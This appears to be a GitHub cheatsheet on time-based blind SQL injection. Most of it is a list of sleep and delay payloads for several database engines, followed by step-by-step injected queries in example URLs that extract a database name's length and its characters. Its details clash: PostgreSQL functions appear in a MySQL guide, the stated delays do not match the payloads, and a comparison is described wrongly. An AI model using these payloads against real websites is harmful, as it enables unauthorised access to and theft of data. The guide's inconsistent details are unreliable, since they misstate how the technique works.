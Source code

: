 # MySQL Time based SQL Injection Cheatsheet
  
  This is almost the same technique followed as [Blind Based SQLi](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Boolean%20Based%20Blind%20SQLi)
  
  ## Detecting the vulnerability
  The following stacked query detects if the website if vulnerable to Time Based SQL injection, by checking the website time response. The following condition is True because 1=1, which later executes the sleep function, so a 10 seconds delay is what we are expenting on the website's response.
  
  ```sql
  SELECT CASE WHEN (1=1) THEN pg_sleep(25) ELSE pg_sleep(0) END--
  'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
  1'=sleep(25)='1
  '%2b(select*from(select(sleep(2)))a)%2b'
  WAITFOR DELAY '0:0:25';--
  OR SLEEP(25)
  AND SLEEP(25) AND ('kleiton'='kleiton
  WAITFOR DELAY '0:0:25' and 'a'='a;--
  IF 1=1 THEN dbms_lock.sleep(25);
  SLEEP(25)
  pg_sleep(25)
  and if(substring(user(),1,1)>=chr(97),SLEEP(25),1)--
  DBMS_LOCK.SLEEP(25);
  AND if not(substring((select @version),25,1) < 52) waitfor delay  '0:0:25'--
  1,'0');waitfor delay '0:0:25;--
  (SELECT 1 FROM (SELECT SLEEP(25))A)
  %2b(select*from(select(sleep(25)))a)%2b'
  /**/xor/**/sleep(25)
  or (sleep(25)+1) limit 1 --
  ```
  
  Example:
  ```http://domain.com/index.php?id=15'XOR(if(now()=sysdate(),sleep(5*5),0))OR'```  
  If the websites response is ~15 seconds, it means it is vulnerable to this kind of attack.
  
  ## Retrieving the length of database name  
  
  **Retrieving the length of database name**  
  
  The given query will verify if database has less then 15 characters:  
  ```SELECT CASE WHEN (length(database()) < 15) THEN pg_sleep(10) ELSE pg_sleep(0) END--```  
  If the condition is satisfied, the response is delayed by 10 seconds, otherwise keep guessing the number.
  
  Let's assume that the database name is **users**, the length would be 5, so let's use the following query to prove this:  
  ```SELECT CASE WHEN (length(database()) = 5) THEN pg_sleep(10) ELSE pg_sleep(0) END--```  
  The response is ~10 seconds so, the database name is 5 characters long.
  
  ## Retrieving the database name
  ![ascii_table](https://www.asciitable.com/asciifull.gif)
  
  In this case we are going to use **pg_sleep()** function, however you can try the other functions mentioned  at **Detecting the vulnerability** section.
  
  The given query will define is the first character of database name is 111 (o):  
  ```http://domain.com/index.php?id=1' SELECT CASE WHEN (ascii(substr((select database()),1,1)) > 110) THEN pg_sleep(10) ELSE pg_sleep(0) END--+```
  The response was very short, which means that the first character of the databaze is not **o**, let's keep guessing.
  
  The given query will define is the first character of database name is 110 (n):  
  ```http://domain.com/index.php?id=1' SELECT CASE WHEN (ascii(substr((select database()),1,1)) > 109) THEN pg_sleep(10) ELSE pg_sleep(0) END--+```  
  ```